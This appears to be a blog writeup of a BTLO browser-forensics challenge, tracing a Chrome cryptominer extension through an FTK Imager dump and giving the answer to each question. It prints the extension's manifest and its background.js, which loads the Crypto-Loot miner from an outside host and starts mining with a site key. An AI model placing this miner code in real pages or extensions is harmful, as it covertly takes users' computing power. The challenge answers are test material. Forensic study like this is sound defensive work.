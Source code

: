 ```yaml
---
layout: article
title: Browser Forensics - Cryptominer
aside:
  toc: true
sidebar:
  nav: btlo
cover: https://cdn.pixabay.com/photo/2020/10/22/01/46/cryptocurrency-5674685_1280.png
permalink: /writeups/browser-crypto-miner
tags:
- BTLO
- Challenges
author: z3f1r0
---
```

## Scenario
Our SOC alerted that there is some traffic related to crypto mining from a PC that was just joined to the network. The incident response team acted immediately, observed that the traffic is originating from browser applications. After collecting all key browser data using FTK Imager, it is your job to use the ad1 file to investigate the crypto mining activity.

## Introduction
First of all, I downloaded "Browser Dump" file and copied it to a Windows VM where it was installed FTK Imager. 

- Here you can download FTK --> [FTK Imager download](https://www.exterro.com/ftk-imager)

Inside "Browser Dump" there are two files:
- **browserdata.ad1**
- **browserdata.ad1.txt**

You have to load **browserdata.ad1** on FTK Imager. I suggest to learn how to FTK Imager works before make the challenge.

When we talk about browser artifacts we talk about, navigation history, bookmarks, list of downloaded files, cache data…etc.
These artifacts are files stored inside of specific folders in the operating system. Each browser stores its files in a different place than other browsers and they all have different names.

## Challenge Submission

### How many browser-profiles are present in Google Chrome?

Profile Path usually is inside **C:\\Documents and Settings\\”USER NAME”\\Local Settings\\Application Data\\Google\\Chrome\\User Data\\Default** and there is another folder with the same structure: **Profile 1**

>2 

### What is the name of the browser theme installed on Google Chrome?

Path where Chrome Extensions are installed:
```text
C:\Documents and Settings\”USER NAME”\Local Settings\Application Data\Google\Chrome\User Data\Default\Extensions
```

In the following path I discovered Theme's name: *C:\\Documents and Settings\\”USER NAME”\\Local Settings\\Application Data\\Google\\Chrome\\User Data\\Default\\Extensions\\iiihlpikmpijdopbaegjibndhpgjmjfe\\1.6_0*

```JSON
{
   "app": {
      "launch": {
         "web_url": "http://atavi.com/browser-themes/?from=chrome-themes&tid=earth_in_space"
      },
      "urls": [ "http://atavi.com/browser-themes/" ]
   },
```

>Earth in Space

### Identify the Extension ID and Extension Name of the cryptominer

Continuing to look inside "Extensions", I discovered the following content inside a *manifest.json* file:

```json
{
   "background": {
      "scripts": [ "background.js" ]
   },
   "description": "Allows staff members to mine cryptocurrency in the background of their web browser",
   "icons": {
      "16": "16.png"
   },
   "key": "MIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEAp1BrfOdr9hldFysTWVfr6nkuAD8IShanyW+d1kG1J6RKUWOCMQTjNUv2R+K+wz5pvgnrHZfc5jx+rGN1VPgs3VQnYCcFjbe2NXLbLLKkXPATIOLrmMjq7pQAEXu5xuqnRU4AkHumpEX81UD0Vv1TgAi5k1mZLrg5F2B02yXz1tfmMIiqCc/mG7K0/ECNUHXjzi/0B5Ubx3DCZvVSN32H+QvF7lxBnOpgjK9syeHPj4iXiyV9lgiCQjMGe4lKsVJfFT5nAf8tY2BBmna1MtY4LLwV1dIvJ922oFGEs0ty6391RwmC6S0j0oIOdGgQjylZKDREzVw959g/3PGp0lj9BQIDAQAB",
   "manifest_version": 2,
   "minimum_chrome_version": "9",
   "name": "DFP Cryptocurrency Miner",
   "omnibox": {
      "keyword": "DFP Miner"
   },
   "update_url": "https://clients2.google.com/service/update2/crx",
   "version": "3"
}

```

Referring to *description* and *name* we can understand that this is the cryptominer.

> egnfmleidkolminhjlkaomjefheafbbb, DFP Cryptocurrency Miner

### What is the description text of this extension?

> Allows staff members to mine cryptocurrency in the background of their web browser

### What is the name of the specific javascript web miner used in the browser extension?

Opening **background.js** I find the answer.

```js
<script src="https://crypto-loot.com/lib/miner.min.js"></script>
<script>
var miner=new CryptoLoot.Anonymous('b23efb4650150d5bc5b2de6f05267272cada06d985a0',
        {
        threads:3,autoThreads:false,throttle:0.2,
        }
);
miner.start();
</script>
<script>
	// Listen on events
	miner.on('found', function() { /* Hash found */ })
	miner.on('accepted', function() { /* Hash accepted by the pool */ })

	// Update stats once per second
	setInterval(function() {
		var hashesPerSecond = miner.getHashesPerSecond(20);
		var totalHashes = miner.getTotalHashes(256000000);
		var acceptedHashes = miner.getAcceptedHashes();

		// Output to HTML elements...
	}, 1000);
</script>
```

> crypto loot

### How many hashes is the crypto miner calculating per second?

```js
// Update stats once per second
	setInterval(function() {
		var hashesPerSecond = miner.getHashesPerSecond(20);
		var totalHashes = miner.getTotalHashes(256000000);
		var acceptedHashes = miner.getAcceptedHashes();

		// Output to HTML elements...
	}, 1000);
```

>20

### What is the public key associated with this mining activity?

```js
var miner=new CryptoLoot.Anonymous('b23efb4650150d5bc5b2de6f05267272cada06d985a0')
```

### What is the URL of the official Twitter page of the javascript web miner?

Just a Google search.

>twitter.com/CryptoLootMiner


*References*:
- [https://nasbench.medium.com/web-browsers-forensics-7e99940c579a](https://nasbench.medium.com/web-browsers-forensics-7e99940c579a)
- [https://focusinfotech.com/blog/browser-forensics](https://focusinfotech.com/blog/browser-forensics)
- [https://infosecwriteups.com/browser-forsensics-cyptominer-49e5beeb4433](https://infosecwriteups.com/browser-forsensics-cyptominer-49e5beeb4433)
